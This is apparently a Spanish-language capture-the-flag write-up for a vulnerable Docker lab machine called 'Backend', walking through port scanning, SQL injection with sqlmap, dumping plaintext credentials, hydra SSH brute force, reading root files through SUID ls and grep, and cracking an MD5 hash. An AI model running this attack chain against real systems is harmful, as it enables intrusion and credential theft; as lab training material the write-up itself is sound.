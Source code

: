 # **Máquina: Backend**

### **Dificultad:** Fácil

### 📝 **Descripción:**


### 🎯 **Objetivo:**


![Logo](Imágenes/2025-05-17_19-35.png)

---

## 🖥️ **Despliegue de la máquina**

Descargamos el archivo `backend.zip`, lo descomprimimos y desplegamos la máquina usando el script `auto_deploy.sh` proporcionado. Esto inicia la máquina vulnerable dentro de un contenedor Docker:

```bash
unzip backend.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos la conexión con un simple `ping` a la IP asignada (172.17.0.3):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Puertos descubiertos:

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Puertos](Imágenes/Capturas_2.png)

Posteriormente, realizamos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sCV -p22,8009,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entre http://172.17.0.3/ en donde se encuntra alojado una pagina web donde se ecnotro que existe un login.html 
![Pagina](Imágenes/Capturas_4.png)

---

![login](Imágenes/Capturas_5.png)

Comprobación de inyección SQL en el formulario de login

Durante la fase de pruebas, se introdujo el carácter ' al final del campo de nombre de usuario en el formulario de inicio de sesión, lo cual provocó un error,Este mensaje de error revela que el sistema construye la consulta SQL de manera insegura, concatenando directamente el valor proporcionado por el usuario. La aparición del error de sintaxis confirma que no se están utilizando sentencias preparadas ni un adecuado filtrado de entrada, lo cual indica una vulnerabilidad a inyección SQL.
![inyeccion](Imágenes/Capturas_6.png)

---

![error](Imágenes/Capturas_7.png)

Ejecuto  sqlmap -u "http://172.17.0.3/login.html" --forms --batch --dbs contra la URL `http://172.17.0.3/login.html`, analizando formularios web para detectar vulnerabilidades de inyección SQL y, si es vulnerable pero ya confirmamos que tiene esta vulnerabilidad, asi que enumerara las bases de datos automáticamente sin intervención del usuario.
Encontro:
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
![error](Imágenes/Capturas_8.png)

Usamos sqlmap -u "http://172.17.0.3/login.html" --forms --batch -D users --tables este comando usa sqlmap para analizar formularios en la página de login, buscar vulnerabilidades de inyección SQL y, si encuentra acceso, listar todas las tablas de la base de datos users automáticamente.
![usuarios](Imágenes/Capturas_9.png)

Ahora se usa sqlmap -u "http://172.17.0.3/login.html" --forms --batch -D users -T usuarios --dump Este comando de sqlmap analiza el formulario web vulnerable, accede a la base de datos users, selecciona la tabla usuarios y extrae automáticamente todos sus registros sin necesidad de intervención del usuario.
Se encontro:
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
![usuarios](Imágenes/Capturas_10.png)

Se puede probar estas credenciales manualmente pero yo use hydra cree dos .txt uno de usuarios y otro de contraseña y ejecute hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.3 -t 4 donde encontre las credenciañes de:
[22][ssh] host: 172.17.0.3   login: pepe   password: P123pepe3456P
![usuarios](Imágenes/Capturas_11.png)

Claro, aquí tienes una redacción clara y completa del **proceso que seguiste**, paso a paso, ideal para un informe técnico de pentesting:

---

## 🔍 Acceso por SSH y recolección de información

### 1. **Acceso inicial al sistema**

Se logró acceder exitosamente al sistema remoto mediante SSH utilizando las siguientes credenciales obtenidas previamente:

```bash
ssh pepe@172.17.0.3
```

Durante la conexión se aceptó la huella digital del servidor y se ingresó la contraseña correspondiente al usuario `pepe`.

---

### 2. **Verificación de privilegios**

Se intentó ejecutar el comando `sudo -l` para comprobar si el usuario `pepe` tenía permisos sudo, sin embargo, el sistema no tiene instalado `sudo`:

```bash
sudo -l
# Resultado:
# -bash: sudo: command not found
```

---

### 3. **Búsqueda de binarios con SUID**

Se utilizó `find` para localizar archivos con el bit SUID activado, que podrían permitir escalada de privilegios:

```bash
find / -perm -4000 2>/dev/null
```

Entre los resultados, destacan algunos binarios comunes con SUID:

* `/usr/bin/ls`
* `/usr/bin/grep`
* `/usr/bin/passwd`
* `/usr/bin/su`
* ...

---

### 4. **Acceso al directorio `/root`**

Gracias a que `/usr/bin/ls` tiene el bit SUID activo, se pudo listar el contenido del directorio `/root`, normalmente inaccesible para usuarios sin privilegios:

```bash
/usr/bin/ls -la /root
```

Esto permitió visualizar un archivo sospechoso:

```bash
/root/pass.hash
```

---

### 5. **Extracción del hash de contraseña**

Se utilizó el binario `grep` (también con SUID) para extraer el contenido del archivo:

```bash
/usr/bin/grep '' /root/pass.hash
# Resultado:
e43833c4c9d5ac444e16bb94715a75e4
```

Este valor corresponde a un **hash MD5**, posiblemente una contraseña de root o de un usuario privilegiado.
![contraseña](Imágenes/Capturas_13.png)

---

Guarde el hash MD5 en un archivo llamado hash, luego uso John the Ripper con el diccionario rockyou.txt y formato Raw-MD5 para descifrar la contraseña oculta: spongebob34

john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
![has](Imágenes/Capturas_12.png)

Entramos a ssh como pepe y entramos a su root con las credenciales encontradas con exito
![root](Imágenes/Capturas_14.png)
